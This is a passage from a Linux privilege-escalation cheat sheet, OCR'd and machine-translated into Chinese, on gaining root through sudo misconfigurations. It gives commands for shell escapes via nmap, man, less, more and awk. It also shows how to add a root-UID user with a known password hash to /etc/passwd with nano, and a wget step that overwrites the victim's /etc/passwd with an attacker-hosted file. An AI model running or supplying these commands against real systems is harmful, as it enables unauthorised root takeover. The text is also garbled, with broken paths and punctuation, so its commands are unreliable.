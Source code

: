 sudo nmap - 交互式 nmap>！shsh-4.1＃

**注意：****nmap –interactive ****选项在最新的**** nmap**** 中不可用。**

没有互动的最新方式

echo“os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

### **使用** Man **命令**

sudo man man

之后按**！**按下并按 Enter

### **使用 less**/more **命令**

sudo less / etc / hosts

sudo more / etc / hosts

之后按**！**按下并按 Enter

### **使用** awk **命令**

sudo awk’BEGIN {system（“ / bin / sh”）}’

### **使用** nano **命令**

nano 是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改 passwd 文件并将用户添加为 root 特权。在 / etc /passwd 中添加此行，以将用户添加为 root 特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd

现在切换用户密码是：test

su touhid

### **使用** wget **命令**

这种非常酷的方式要求 Web 服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

*   首先将 Target 的 / etc / passwd 文件复制到攻击者计算机。
    
*   修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
    
*   仅附加此行 =>   **touhid****：****$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0****：****b****：****root / root****：**
    
*   将 passwd 文件托管到使用任何 Web 服务器的主机。
    

**在受害者方面。**

sudo wget http://192.168.56.1:8080/passwd -O / etc / passwd

现在切换用户密码是：test

su touhid
